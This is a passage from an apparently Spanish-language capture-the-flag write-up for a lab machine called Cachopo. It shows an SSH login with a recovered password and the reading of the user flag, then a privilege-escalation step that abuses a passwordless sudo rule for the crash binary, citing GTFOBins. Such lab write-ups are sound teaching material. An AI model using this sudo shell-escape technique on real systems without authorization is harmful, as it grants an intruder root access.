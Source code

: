 Genial, probemos esa contraseña:
```bash
ssh carlos@192.168.10.230
carlos@192.168.10.230's password: 
Linux Cachopo 6.1.0-22-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.94-1 (2024-06-21) x86_64
...
Last login: Mon Jul 15 11:44:31 2024
carlos@Cachopo:~$ whoami
carlos
```

Ganamos acceso y aquí podemos encontrar la flag del usuario:
```bash
carlos@Cachopo:~$ ls
user.txt
carlos@Cachopo:~$ cat user.txt
...
```


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="crash">Escalando Privilegios con Permisos Sudoers Sobre Binario crash (Shell Escape)</h2>

Revisemos qué privilegios tiene nuestro usuario:
```bash
carlos@Cachopo:~$ sudo -l
Matching Defaults entries for carlos on Cachopo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User carlos may run the following commands on Cachopo:
    (ALL) NOPASSWD: /usr/bin/crash
```
Podemos usar el binario **crash** como **Root**.

Encontramos una forma de usar este binario para escalar privilegios con la **guía de GTFOBins**:
* <a href="https://gtfobins.github.io/gtfobins/crash/" target="_blank">GTFOBins: crash</a>

Y usaremos este comando:

<p align="center">
<img src="/assets/images/THL-writeup-cachopo/Captura8.png">
</p>
